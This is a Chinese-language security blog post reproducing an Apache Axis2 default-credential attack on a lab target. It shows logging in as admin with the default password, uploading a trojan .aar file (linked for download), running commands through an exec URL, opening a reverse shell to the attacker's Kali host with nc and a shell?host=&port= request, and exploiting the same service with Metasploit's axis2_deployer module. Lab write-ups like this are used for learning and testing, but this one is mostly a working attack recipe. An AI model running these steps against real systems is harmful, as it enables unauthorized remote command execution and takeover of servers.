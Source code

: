#  【漏洞复现】Apache Axis2弱口令（附测试靶机）  
稻草人  玄武盾网络技术实验室   2025-07-01 00:35  
  
“  
对我们感兴趣的话就点个关注吧  
”  
  
## 免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
  
****  
本文详细介绍了Apache Axis2的一个安全漏洞，通过扫描器发现该漏洞允许未经验证的远程命令执行。作者演示了如何使用admin默认密码登录，上传aar木马文件，并通过执行特定命令反弹shell。此外，还展示了使用Meterpreter进行漏洞利用的过程。  
#### 环境介绍  
<table><thead><tr style="box-sizing: border-box;outline: 0px;border-width: 1px 0px 0px;border-right-style: initial;border-bottom-style: initial;border-left-style: initial;border-right-color: initial;border-bottom-color: initial;border-left-color: initial;border-image: initial;border-top-style: solid;border-top-color: rgb(221, 221, 221);background-color: rgb(255, 255, 255);font-synthesis-style: auto;overflow-wrap: break-word;"><th style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: 700;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;background-color: rgb(239, 243, 245);"><section><span leaf="">主机</span></section></th><th style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: 700;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;background-color: rgb(239, 243, 245);"><section><span leaf="">IP</span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;outline: 0px;"><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;"><section><span leaf="">靶机</span></section></td><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;"><section><span leaf="">192.168.30.134</span></section></td></tr><tr style="box-sizing: border-box;outline: 0px;border-width: 1px 0px 0px;border-right-style: initial;border-bottom-style: initial;border-left-style: initial;border-right-color: initial;border-bottom-color: initial;border-left-color: initial;border-image: initial;border-top-style: solid;border-top-color: rgb(221, 221, 221);background-color: rgb(247, 247, 247);font-synthesis-style: auto;overflow-wrap: break-word;"><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;"><section><span leaf="">kali</span></section></td><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;"><section><span leaf="">192.168.30.128</span></section></td></tr></tbody></table>### 靶机获取：  
```
链接：https://pan.quark.cn/s/9dc698b2c804?pwd=t8Fv
提取码：t8Fv
```  
#### 漏洞扫描：  
  
使用扫描器发现漏洞，发现可以利用  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDm3ZlD9fI389DSGdnF6zPy8wH4wfDPvbEQIkAFKVD2KPJJ7EUSsJCNwA/640?wx_fmt=jpeg "")  
### 开始复现  
  
使用admin和默认密码登陆axis2。  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmAdUouV92v4xn6NbfoqJwyQ85jf2TdOI8iaOAQa0s4KA2QUmv7JbqFDg/640?wx_fmt=jpeg "")  
  
  
发现漏洞上传点。  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmfBOFQgM4t1dVJJRLbQvCDbkEQHjIbMvibuecWOeEK6fBNJ1FHlj5q9Q/640?wx_fmt=jpeg "")  
  
  
aar木马下载：  
```
链接：https://pan.quark.cn/s/9dc698b2c804?pwd=t8Fv
提取码：t8Fv
```  
  
上传木马文件  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmecSw2UCd1buIic2icI9n9yo2TiaqQIHOWGbKSwUcE8xQ35B2hvFQQ5IcA/640?wx_fmt=jpeg "")  
  
```
执行命令
http://192.168.30.134/axis2/services/Cat/exec?cmd=ifconfig
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmib4EulvZ7wMZ7eh6duNBX5BnYJ20KYAvcKU9hTibBuib4EkXEHaOTsnQA/640?wx_fmt=jpeg "")  
#### 反弹shell  
  
使用nc监听端口1111  
```
nc -lvp 1111
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDm69JLiaJxEPFLiblP3sn3ujtXGQN8fno2LpJ0qibKLG7wmcCZwSxGcGh2A/640?wx_fmt=png&from=appmsg "")  
### 使用命令进行反弹shell  
```
http://192.168.30.134/axis2/services/Cat/shell?host=192.168.30.128&port=1111
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmumjjDCl9veqnCaygXxFNVmQVm4Icj6lS8v6OEOKqSLwliaemCjgdARg/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmBbOs3Vbibic0SibGklib13MdZ6uO0NFGlhtOqC0lZjhu1iaZn17icATbOA5Q/640?wx_fmt=jpeg "")  
### Meterpreter复现：  
```
msfconsole 
use exploit/multi/http/axis2_deployer
msf6 exploit(multi/http/axis2_deployer) > set rhosts 192.168.30.134
msf6 exploit(multi/http/axis2_deployer) > set rport 80
msf6 exploit(multi/http/axis2_deployer) > exploit
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmN13sO5VkpbZYW561Bx0nFE1KjOOpmn9B0rpbNp73c4W8eMWok2D51A/640?wx_fmt=jpeg "")  
  
为爱发电，随手点个「推荐」吧！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
* 声明：技术文章均收集于互联网，仅作为本人学习、记录使用。侵权删！！！。  
  
推荐阅读  
  
[Nacos漏洞实战攻防](https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247485832&idx=1&sn=6a0c5ca8f71c5978b6a1f2957346dcec&scene=21#wechat_redirect)  
  
  
[值得关注的十大开源网络安全工具](https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247486028&idx=1&sn=661d541628597072c459e0b76a984602&scene=21#wechat_redirect)  
  
  
[【漏洞复现】Dataease JWT 认证绕过漏洞/远程代码执行（CVE-2025-49001/CVE-2025-49002）](https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247486028&idx=3&sn=d961f6c041977816b00f5c5e7415af1a&scene=21#wechat_redirect)  
  
  
